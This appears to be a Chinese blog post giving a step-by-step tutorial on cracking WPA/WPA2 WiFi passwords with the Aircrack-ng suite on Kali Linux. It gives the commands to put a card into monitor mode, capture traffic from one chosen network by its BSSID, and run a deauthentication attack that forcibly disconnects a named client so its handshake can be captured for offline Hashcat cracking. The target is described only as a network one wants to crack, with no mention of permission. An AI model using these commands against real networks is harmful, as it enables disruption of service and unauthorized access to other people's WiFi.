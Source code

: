 ```yaml
---
title: 破解WiFi密码（WPA/WPA2）
layout: post
---
```

如今，绝大部分的WiFi网络都采用了 WPA/WPA2 加密，WEP 加密已经极为罕见。所以本文就给大家介绍如何用 Aircrack-ng 工具包破解 WPA/WPA2 加密的 WiFi 网络。

Aircrack-ng 是一套 WiFi 网络审计工具，本文假定你已安装好了这套工具，如果还没有，可以参考<a href="http://www.aircrack-ng.org/install.html" target="_blank">Aircrack-ng Installation</a>。本文使用的环境是 Kali Linux ，其中已经集成了 Aircrack-ng。

首先，我们要抓取客户端和热点之间的握手包。

将无线网卡插入电脑，打开 Terminal，输入：

```
ifconfig -a              确认网卡已连接(wlan0)
ifconfig wlan0 up        加载网卡
airmon-ng start wlan0    切换网卡到 monitor 模式
ifconfig wlan0 down      卸载原始的 wlan0
```

返回结果：

[<img class="alignnone size-full wp-image-142" src="http://prdwb.github.io/images/2015/05/Image-044.png" alt="Aircrack-ng" width="685" height="103" />][1]

输入命令：

```
airodump-ng mon0  扫描无线网络
```<img class="alignnone size-full wp-image-143" src="http://prdwb.github.io/images/2015/05/Image-045.png" alt="Aircrack-ng" width="997" height="459" />  
选择一个想破解的网络，本文以第四条  D4:EE:07:0F:30:58   CH7   HiWiFi_0F3058  为例。</p> 

开始抓包：

```
airodump-ng mon0 -c 13 -w 0519 --bssid D4:EE:07:0F:30:58
```

-w 参数代表写入文件  
&#8211;bssid 为结果过滤

下面利用 Deauth 攻击加快破解进程，新打开一个 Terminal，输入：

```
aireplay-ng -0 10 -a D4:EE:07:0F:30:58 -c 2C:D0:5A:4C:FF:E3 mon0
```

这样会切断客户端和热点之间的连接，客户端尝试重新连接时，我们就会抓到握手包：

[<img class="alignnone size-full wp-image-144" src="http://prdwb.github.io/images/2015/05/Image-046.png" alt="Aircrack-ng" width="835" height="379" />][2]

找到保存好的 cap 文件，到 <a href="https://hashcat.net/cap2hccap/" target="_blank">https://hashcat.net/cap2hccap/</a> 转换为hccap文件，再利用 Hashcat 跑包，具体过程就不在此赘述了。

 [1]: http://prdwb.github.io/images/2015/05/Image-044.png
 [2]: http://prdwb.github.io/images/2015/05/Image-046.png